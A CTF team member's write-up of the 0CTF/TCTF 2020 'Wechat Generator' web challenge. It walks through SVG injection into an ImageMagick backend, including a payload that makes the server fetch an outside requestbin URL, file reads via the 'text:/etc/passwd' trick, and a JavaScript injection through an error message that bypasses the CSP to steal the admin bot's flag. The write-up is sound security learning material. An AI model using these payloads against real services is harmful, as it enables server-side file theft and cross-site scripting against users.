




# 0CTF/TCTF 2020 Quals

I played this CTF with the UK and Swiss based "Organizers" team.

Wechat Generator
---
> Come and check my latest innovation! It's normal to encounter some bugs and glitches since it is still in beta development.
> http://pwnable.org:5000/

I worked on this challenge together with bazumo, Robin and Titus.

We are presented with a website where we can customise a WeChat conversation:



Clicking "Preview" here POSTs the data `[{"type":0,"message":"Love+you!"},{"type":1,"message":"Me+too!!!"}]` to the server. The server returns both a "previewid" UUID to identify the image, and the rendered image itself in `data:image/svg+xml;base64` format, replacing the picture on the right.

Clicking "Share" POSTs the "previewid" to the server, which sends back a URL to view the image you created. Looking more closely, the image has a path of the form `/image/PwVYJO/png`, and is not stored in a static directory. In fact, the image is rendered each time it is requested, and by changing `png` to other common image formats, it will render in those formats instead. Even PDF is supported!

At this point we know it's almost certainly ImageMagick processing our SVG data on the backend, which opens up a whole can of potential security issues. However, there are a couple limitations &ndash; `/image` returns an error if the chosen format is not three letters long, plus some incredibly dangerous formats that [ImageMagick supports](https://imagemagick.org/script/formats.php) such as Magick Scripting Language (MSL) are not available.

The WeChat generator has emojis, which are encoded in square brackets e.g. `[smile]`. By looking at the generated SVG, we can see that this gets replaced with an `<image>` tag that has a `link:href` attribute pointing to a static image. We can close the image tag ourselves and add arbitrary SVG data which will get processed by ImageMagick.

For instance, the following triggers a HTTP request from the server to our [requestbin](https://requestbin.com/) when viewing the rendered PNG:

```
[{"type":1,"message":"[lmfao.png"/> <image height="1600" width="1000" xlink:href="http://dn3sdwb1d1noc.x.pipedream.net/" /> ] "}]
```

If we link to an SVG on our server, ImageMagick will additionally parse the `xlink:href` inside that. At this point we spent a long time trying common SVG payloads hoping to get LFI or even RCE (ImageTragick). Finally, we discovered an [obscure feature of ImageMagick](http://en3srwbud1noc.x.pipedream.net/), the `text:` input format. It gives us LFI that we can see get rendered in our image! For example if we use `xlink:href="text:/etc/passwd"` in the above payload, we get:



Visiting `/flag` prints "Good job! Now what's the next step?". A single step would of course be too easy for this CTF.

We use the LFI to further explore the filesystem and eventually discover the source code for the application in `/app/app.py`. The `text:` trick only renders the first "page", and there seems to be no way to view more. It's enough to see a good amount of the source though:



This reveals a new route, `/SUp3r_S3cret_URL/0Nly_4dM1n_Kn0ws`. We can post a URL path from the same website to the Chrome WebDriver "admin". The aim is now to find an XSS vulnerability to exploit him with.



We can't just send a link to an SVG with `<script>alert(1)</script>` in it, due to the restrictive Content Security Policy which blocks inline scripts:

```
img-src * data:; default-src 'self'; style-src 'self' 'unsafe-inline'; connect-src 'self'; object-src 'none'; base-uri 'self'
```

We need to find a way of sourcing a script that includes XSS, from the same origin.

The other notable part of the source is an additional `callback` parameter for the error handler. This allows us to add three characters then an equals before any JSON error thrown by the website. This appears to give us so few characters that it's useless, on the other hand it doesn't make sense unless it's part of the solution.

After trying many, many image formats and payloads, finally bazumo spotted something we should have noticed much earlier. There's an injection into the `previewid` parameter of `/share`, where the error reflects our input back. For instance an input of `' + alert(1); b = {'c': "` results in:

```
{"error": "Convert exception: unable to open image `previews/' + alert(1); b = {'c': " ': No such file or directory @ error/blob.c/OpenBlob/2874"}
```

By using the weird `callback` parameter we can introduce a single quote in front of the JSON, and turn this into valid Javascript where our injection gets executed. As this response is coming from the website itself, it passes the CSP protection, and can be included in a script tag in an SVG we send the admin to win. `src` is blocked but we can use `xlink:href` on the script tag &ndash; this is valid SVG. After sending this to the admin, he gives us the flag, which is indeed what we wanted as a reward for hours of reading about the SVG format.

Included is a script [wechat_solve.py](wechat_solve.py) which automates the whole process.
